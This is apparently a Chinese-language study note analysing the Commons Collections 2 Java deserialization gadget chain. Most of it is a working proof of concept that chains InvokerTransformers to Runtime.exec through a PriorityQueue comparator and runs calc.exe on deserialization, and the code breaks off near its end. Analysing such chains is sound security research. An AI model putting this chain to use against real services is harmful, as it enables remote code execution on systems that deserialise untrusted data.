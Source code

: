 ## 简介
CC2 使用的是 `javassist`和`PriorityQueue`来构造利用链，并且使用的是`commons-collections-4.0`版本，而`3.1-3.2.1`版本中`TransformingComparator`并没有去实现`Serializable`接口，也就是说这是不可以被序列化的，所以CC2不用3.x版本
## 环境
jdk1.8
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_12_qNCh54Ve.png)
commons collections4-4.0
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_12_YLQXFPJ8.png)
## POC
首先看poc
```java
package com.myproject;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC2 {

    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, NoSuchFieldException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,Tcomparator);

        try{
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
```